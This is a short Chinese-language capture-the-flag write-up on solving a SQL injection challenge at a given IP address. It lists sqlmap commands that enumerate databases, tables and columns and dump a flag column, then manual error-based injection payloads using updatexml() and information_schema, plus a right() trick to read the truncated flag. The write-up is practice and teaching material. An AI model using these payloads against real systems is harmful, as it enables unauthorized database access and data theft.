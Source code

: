#SQL 注入 #报错注入

可以用 sqlmap 跑 👍

```sh
sqlmap -u “http://1.14.71.254:28199/index.php?id=1” --dbs
sqlmap -u “http://1.14.71.254:28199/index.php?id=1” -D test_db --tables
sqlmap -u “http://1.14.71.254:28199/index.php?id=1” -D test_db -T test_tb --columns
sqlmap -u “http://1.14.71.254:28199/index.php?id=1” -D test_db -T test_tb -C flag --dump
```

报错注入
尝试

```sql
-- 获取当前数据库

?id=1' and updatexml(1,concat('~',(select database()),'~'),1)--+
```

![[Pasted image 20230130170645.png]]

```sql
-- 获取表

?id=1' and updatexml(1,concat('~',(select table_name from information_schema.tables where table_schema='test_db' limit 0,1),'~'),1)--+
```

![[Pasted image 20230130170921.png]]

```sql
-- 获取列

?id=1' and updatexml(1,concat('~',(select column_name from information_schema.columns where table_name='test_tb' limit 1,1),'~'),1)--+
```

![[Pasted image 20230130171704.png]]

```sql
-- 获取字段

?id=1' and updatexml(1,concat(0x7e,(select flag from test_tb)),1)%23

0x7e : ~     %23 : #
```

只有一半，接着就用 right()、left()函数截取就 OK

```sql
?id=1' and updatexml(1,concat(0x7e,(select right(flag,30) from test_tb)),1)%23
```
